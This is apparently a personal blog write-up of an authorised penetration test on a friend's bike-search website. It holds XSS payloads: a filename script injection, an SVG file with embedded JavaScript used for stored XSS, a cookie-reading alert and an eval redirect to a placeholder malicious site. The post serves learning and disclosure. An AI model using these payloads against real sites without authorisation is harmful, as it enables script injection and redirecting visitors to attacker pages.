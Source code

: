 ```yaml
---
title: "XSS in the Real World"
excerpt: How I successfully ran my first stored XSS-attack on a deployed webpage.
date: 2025-09-22
---
```


In order to practice newly learnt skills about the Burp Suite framework, I contacted a friend who runs the domain [bikeseek.org](https://bikeseek.org/) as a personal project. With his authorization I set out to uncover any vulnerabilities that I could find, using basic web penetration-testing skills. All findings are summarized in [this](/home/uploads/Pentest_Report.pdf) document. The vulnerability from which I learnt the most is what this blogpost is about.

Notice that I carried out this test on 20-06-2025, so the results might not be reproducible anymore.

<br>

### First Attempt at XSS Using Burp Suite

To begin with, I set the browser proxy to route traffic through Burp Suite and proceeded to upload an image file via the application’s regular upload functionality. In the intercepted request within Burp’s proxy interceptor, I attempted to manually modify the image’s filename — for instance, replacing it with:

```html
"><script>alert(1);</script>.jpg
```

The line  

```html
<img src="/uploads/user 3 query HASH image.jpg">
```

is included in the HTML of the resulting subdirectory `/my results`, hence the goal was to embed the line  

```html
<img src="/uploads/user_3_query_HASH_"><script>alert(1);</script>.jpg">
```

in the backend, thereby triggering a reflected XSS attack.  

However, the issue with this vector lies in its leading `"` character, which prematurely terminates the `filename="image.jpg"` attribute in the multipart form-data request when I replace *image* with the payload. As a result, the structure of the HTTP request becomes invalid, and the intended injection does not propagate into the rendered page as planned.

<br>

### Successful XSS Using Burp Suite

An alternative approach yielded a successful stored XSS attack on the domain. Here I give a full list explaining how to obtain this result:

1. Proxy the browser to route any traffic through Burp Suite.
2. Upload a vector graphic image with file extension `.svg` to the website and intercept the POST request in Burp Suite.
3. Change the POST content, i.e. the block `<?xml ... </svg>`, to the following snippet, containing a classical Javascript payload:
   
  ```xml
  <?xml version="1.0" standalone="no"?>
  <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
    <script type="text/javascript">
      alert(1);
    </script>
  </svg>
  ```
4. Forward the requests and return to the website. The response is a visible error message printed on screen. In our case (we uploaded `bike.svg`), it reads:
  ```
  An error occurred during search : cannot identify image file ’/home/ec2-user/
  BikeSearch/src/uploads/user_3_query_7a0586d404254425a0e7e5c43050a4c7_bike.svg’
  ```
5. Thus, it seems as though the test-image `bike.svg` has failed to be uploaded to the database. However, if we copy the last part of the file path, i.e. `user_3_query...0a4c7_bike.svg`, navigate to *“View Last Search”* and open an arbitrary image in a new tab, we see that its URL is of the form:
  ```
  https://bikeseek.org/upload/user_3_query_HASH_image.jpg
  ```
6. Now replace the last part of this path file by the copied unique identifier of `bike.svg` from step 5. The URL  
  ```
  https://bikeseek.org/upload/user_3_query_7a0586d404254425a0e7e5c43050a4c7_bike.svg
  ```
  gives the desired XSS attack in our case, as we obtain the expected alert in the browser.

<br>

### Some Observations and Lessons

- It was necessary to upload an `.svg` file, as only these image types support XML, thus enabling us to smuggle in some Javascript code.  
- Despite the unique identifier including the string `user_3_query`, the XSS exploit is not unique to us as a user. It was tested with the owner’s account that whenever they are logged into the domain they can still access the URL from step 6 above and get the alert in the browser.  
- This attack is categorized as a stored XSS vulnerability, since our payload is permanently uploaded in the owner’s database. This was checked with the owner. Nonetheless, the security impact is not extremely high for a few reasons:
  - Any images that users upload are not reused in the backend to search for fitting bikes using ML-methods. Thus, it is impossible for another user to be presented with our malicious file `bike.svg` on their session.  
  - We cannot extend our XSS attack to steal cookies, since the domain has the setting `httponly` set to true, and thus we cannot successfully implement a payload like:
    ```javascript
    alert(document.cookie)
    ```
- One possible way to further exploit this vulnerability is to redirect to a new webpage upon clicking on the malicious URL. This is done with the function:
  ```javascript
  eval(location.href = "https://www.malicious-website.com/")
  ```
  instead of the function:
  ```javascript
  alert(1);
  ```
  from before.
